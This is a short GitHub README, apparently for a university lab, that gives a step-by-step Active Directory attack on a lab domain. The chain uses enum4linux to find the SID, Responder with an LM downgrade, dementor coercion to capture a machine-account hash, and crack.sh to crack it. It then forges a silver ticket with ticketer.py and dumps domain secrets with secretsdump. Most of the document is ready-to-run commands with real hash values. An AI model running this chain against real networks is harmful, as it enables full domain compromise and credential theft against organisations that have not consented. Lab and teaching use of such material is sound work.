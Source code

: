 You can watch a video walk-through here: https://youtu.be/WuDTcwCjZ5s
# Getting the SID
```bash
enum4linux 192.168.50.135
```
The only information you need to run this command is the IP address of the Domain controller which in my case was 192.168.50.135.

![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415122818.png)

We find that the SID is "S-1-5-21-3294894903-2995586124-3146476039"
This will be used later when generating the silver ticket.

# Responder
```bash
sudo python Responder.y -I eth0 -wrf --lm
```
Here the argument "--lm" is important because it downgrade the authentication used so that we can use crack.sh for free.

# Dementor
While responder is running, we can use dementor so that responder catches the response.
```bash
python3 dementor.py -u hacker -p ‘WordPass1’ -d CYBERTIGERS 192.168.50.136 192.168.50.135
```
Here the username is "hacker" with password "WordPass1", the domain is cybertigers and the first IP address is the attacker's machine and the second IP is the Domain Controller.

![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415123018.png)

We get the hash for the machine account to be WIN-A2HCLSJFD0C$::CYBERTIGERS:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:1122334455667788

# NTLM MultiTool
``` bash 
python ntlmv1.py --ntlmv1 "WIN-A2HCLSJFD0C$::CYBERTIGERS:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:D8C31819C7D7C02F9EEA1DF384DFC524DD51753DEFB3DA92:1122334455667788"
```

![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415123624.png)

This output of this command gives the exact syntax to crack the hash using either hashcat or crack.sh

# Crack.sh

![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415123723.png)

You can see from the screenshot I took the output of the last command and put it in crack.sh to crack and did not have to pay. It takes about 30 seconds to crack and I got the token of b704c94f943cd358cc77900267266b65

# Generating a Silver Ticket
```bash
python3 ticketer.py -nthash b704c94f943cd358cc77900267266b65 -domain-sid S-1-5-21-3294894903-2995586124-3146476039 -domain CYBERTIGERS.net -spn "HOST/DC1.CYBERTIGERS.net" Administrator
```
We give ticketer.py the token from crack.sh and it is of type nthash, along with the SID we got earlier, the domain cybertigers, the spn which in this case is the default value, and the Administrator username which is again default in this case.

![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415124056.png)

The output is a file called Administrator.ccache

# DC Sync Time!
```bash
export KRB5CCNAME=Administrator.ccache
```
First you need to set the variable name KRB5CCNAME to the Administrator.ccache in order for secretsdump to work

```bash
python3 secretsdump.py Administrator@DC1.cybertigers.net -k -no-pass
```
Then we can run secrets dump giving it the username Administrator @ DC1 . the domain which is cybertigers.net and then we specify to use Kerberos because we have a silver ticket and to not ask for a password.

![](https://raw.githubusercontent.com/njg7716/CSEC-742_ADE/main/Pasted%20image%2020210415124416.png)

And that is it!
